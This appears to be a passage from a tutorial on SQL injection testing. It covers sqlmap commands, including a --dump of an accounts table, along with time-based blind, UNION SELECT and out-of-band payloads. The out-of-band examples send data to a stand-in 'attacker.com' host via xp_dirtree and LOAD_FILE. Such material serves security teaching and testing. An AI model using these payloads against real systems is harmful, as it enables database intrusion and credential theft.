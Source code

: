 | **Feature**               | **Description**                                                                 | **Example Command**                              |  
|---------------------------|---------------------------------------------------------------------------------|-------------------------------------------------|  
| Parameter Scanning         | Identifies injectable parameters in URLs, forms, or cookies.                    | `sqlmap -u "http://example.com/login.php?id=1"` |  
| Database Enumeration       | Lists databases, tables, and columns.                                           | `sqlmap -u "URL" --dbs`                         |  
| Data Extraction            | Retrieves sensitive data (e.g., credentials).                                   | `sqlmap -u "URL" -D users -T accounts --dump`   |  

#### **Burp Suite**  
A proxy tool for intercepting and modifying HTTP requests. Key features:  
- **Payload Injection**: Modify parameters with SQLi payloads (e.g., `' OR 1=1--`).  
- **Scanner**: Automatically tests for SQLi and other vulnerabilities.  

---

### 3. **Time-Based Blind Testing**  
This method infers data correctness by measuring delays in database responses.  

| **Database**       | **Payload Example**                                                                 | **Mechanism**                                   |  
|---------------------|-------------------------------------------------------------------------------------|-------------------------------------------------|  
| **MySQL**           | `' AND IF(1=1, SLEEP(5), NULL)--`                                                  | Delays response by 5 seconds if condition is true. |  
| **MSSQL**           | `' WAITFOR DELAY '0:0:5'--`                                                        | Uses `WAITFOR` to induce delays.                |  
| **PostgreSQL**      | `'||pg_sleep(5)--`                                                                 | Triggers a 5-second delay via `pg_sleep()`.     |  

**Process**:  
1. Inject a payload that causes a delay if a condition is true.  
2. Measure response time to determine if the condition was met.  

---

### 4. **Union Query Testing**  
Testers append `UNION SELECT` to the original query to retrieve data from other tables.  

| **Scenario**               | **Payload**                                                                 | **Outcome**                                      |  
|----------------------------|-----------------------------------------------------------------------------|--------------------------------------------------|  
| **Unknown Column Count**    | `id=-1' UNION SELECT NULL--`                                               | Triggers an error if column counts mismatch.     |  
| **Known Column Count**      | `id=-1' UNION SELECT NULL, version(), NULL--`                              | Reveals the database version if column counts match. |  

**Steps**:  
1. Determine the number of columns in the original query (e.g., via trial and error).  
2. Use `UNION SELECT` with the correct column count to extract data.  

---

### 5. **Out-of-Band Testing**  
Exploits DNS or HTTP callbacks to exfiltrate data to an attacker-controlled server.  

| **Database**       | **Payload Example**                                                                 | **Mechanism**                                   |  
|---------------------|-------------------------------------------------------------------------------------|-------------------------------------------------|  
| **MSSQL**           | `' xp_dirtree '//attacker.com/exfiltrated_data'--`                                 | Triggers an HTTP request to the attacker’s server. |  
| **MySQL**           | `' UNION SELECT LOAD_FILE('//attacker.com/payload')--`                             | Uses `LOAD_FILE()` to send data via DNS.         |  
